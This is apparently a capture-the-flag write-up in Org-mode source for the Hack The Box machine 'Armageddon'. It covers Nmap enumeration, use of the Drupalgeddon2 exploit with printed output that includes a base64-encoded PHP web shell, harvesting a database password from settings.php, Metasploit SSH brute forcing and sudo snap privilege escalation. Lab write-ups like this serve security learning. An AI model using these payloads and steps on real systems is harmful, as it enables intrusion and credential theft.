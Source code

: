 #+TITLE: Armageddon
#+AUTHOR: AsmArtisan256

#+OPTIONS: html-style:nil
#+OPTIONS: html-scripts:nil

#+OPTIONS: author:nil
#+OPTIONS: email:nil
#+OPTIONS: date:t
#+OPTIONS: toc:nil

#+PROPERTY: header-args :eval no

#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="/style.css"/>

#+EXPORT_FILE_NAME: armageddon

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT

#+TOC: headlines 2

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT

* Enumeration

Using =Nmap=, the output is as follows:

#+begin_src
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-24 00:53 WEST
Nmap scan report for 10.10.10.233
Host is up (0.040s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.92 seconds
#+end_src

There is a fair amount of information related to port 80:
- Apache httpd 2.4.6
- PHP 5.4.16
- Drupal 7
- Several directories in =robots.txt=

After adding an entry to =/etc/hosts= as =10.10.10.233 armageddon.htb=, it is
possible to access the website:

[[./images/img1.jpg]]

From the screenshot, it is possible to see that there is a login form and it is
also possible to create a new account and request a new password.

Creating a new account /kind/ of works because it shows a success message
alongside an error message.

[[./images/img2.jpg]]

There are many things we could try: checking for SQL Injection, using =Burp= to
verify requests/responses, etc.
There is also something else that is possible to do, and that is to check whole
=robots.txt= file in =http://armageddon.htb/robots.txt=. There are some open
directories, and there are some files that can be read. One of them is called
=CHANGELOG.txt=, which contains information on the current Drupal version. We
already have the information that Drupal is on version =7=, but in this file we
have the information that Drupal is on version =7.56=. From here, it is possible
to verify on [[https://www.exploit-db.com/][Exploit-DB]] that there are some
exploits that could work on this version. By searching =Drupal=, many results
appear. One of them is more interesting than the others, in this case in
particular, because of its name: =Drupalgeddon2=. [[https://www.exploit-db.com/exploits/44449][This may be the one
we’re looking for.]]
This one can also be found on
[[https://github.com/dreadlocked/Drupalgeddon2][Github]].

I did download it from Github and ran it:

#+begin_src
λ  Drupalgeddon2 (master) $ ruby drupalgeddon2.rb http://armageddon.htb/

[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://armageddon.htb/
--------------------------------------------------------------------------------
[+] Found  : http://armageddon.htb/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.56
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo WYSXAWJW
[+] Result : WYSXAWJW
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://armageddon.htb/shell.php)
[!] Response: HTTP 200 // Size: 6.   ***Something could already be there?***
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://armageddon.htb/shell.php' -d 'c=hostname'
#+end_src

This gives a reverse shell into the server.

#+begin_src
armageddon.htb>> whoami
apache

armageddon.htb>> id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0

armageddon.htb>> pwd
/var/www/html
#+end_src

* User

In this situation it is not really possible to move to many other directories
except the ones in our current directory, =/var/www/html=. Can’t hurt if we try
to find every instance of the word =password= in our current directory:

#+begin_src
$ grep -rn "password" .
#+end_src

We get some interesting results in the middle of the output:

#+begin_src
./modules/user/user.test:732:    require_once DRUPAL_ROOT . '/' . variable_get('password_inc', 'includes/password.inc');
./sites/default/settings.php:254:      'password' => 'CQHEy@9M*m23gBVj',
#+end_src

There is a password in =./sites/default/settings.php=, and some other
information around that line where the password is:

#+begin_src
'database' => 'drupal',
'username' => 'drupaluser',
'password' => 'CQHEy@9M*m23gBVj',
#+end_src

At the same time, we can verify =/etc/passwd= to check existing users:

#+begin_src sh
$ cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash
#+end_src

There is a user called =brucetherealadmin= and it could be a potential target
for SSH bruteforcing. To do this the easy way, Metasploit can be used with it’s
auxiliary module, =auxiliary/scanner/ssh/ssh_login=, alongside a wordlist from [[https://github.com/danielmiessler/SecLists][Seclists]]:

#+begin_src
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set stop_on_success true
stop_on_success => true
msf6 auxiliary(scanner/ssh/ssh_login) > set rhosts 10.10.10.233
rhosts => 10.10.10.233
msf6 auxiliary(scanner/ssh/ssh_login) > set username brucetherealadmin
username => brucetherealadmin
msf6 auxiliary(scanner/ssh/ssh_login) > set verbose true
verbose => true
msf6 auxiliary(scanner/ssh/ssh_login) > set pass_file 100k-most-used-passwords-NCSC.txt
pass_file => 100k-most-used-passwords-NCSC.txt
msf6 auxiliary(scanner/ssh/ssh_login) > exploit

[+] 10.10.10.233:22 - Success: 'brucetherealadmin:booboo' 'uid=1000(brucetherealadmin) gid=1000(brucetherealadmin) groups=1000(brucetherealadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023 Linux armageddon.htb 3.10.0-1160.6.1.el7.x86_64 #1 SMP Tue Nov 17 13:59:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux '
#+end_src

After some tries, we find out that the password =booboo= is the one for the user
=brucetherealadmin=. Then we just use =SSH= to login and get the =user.txt=.
Accessing the database would be more complicated than bruteforcing, interacting
with it would also be difficult and wouldn’t guarantee any kind of relevant
information to get the user flag.

* Root

One of the first things to do is check what the user can run as sudo without
needing the password:

#+begin_src
[brucetherealadmin@armageddon ~]$ sudo -l

Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
#+end_src

From the output, =snap= command can be executed as =sudo= without password. From
here, we can verify in [[https://gtfobins.github.io/gtfobins/snap/][GTFOBins]]
that is it possible to execute arbitrary commands as =sudo= by following the
instructions on the website. In this case, instead of naming the snap package as
=x=, it should have a name with more than a single character. Also, the command
that I used to get the root flag was =cat /root/root.txt=.

* FOOTER                                                                                              :ignore:
:PROPERTIES:
:clearpage: t
:END:
#+BEGIN_EXPORT html
<hr>
<footer>
  <div class="container">
    <ul class="menu-list">
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/index.html">Home</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/articles/articles.html">Articles</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/writeups/writeups.html">Write-Ups</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a class="inactive-link">24-04-2021</a>
      </li>
    </ul>
  </div>
</footer>
#+END_EXPORT
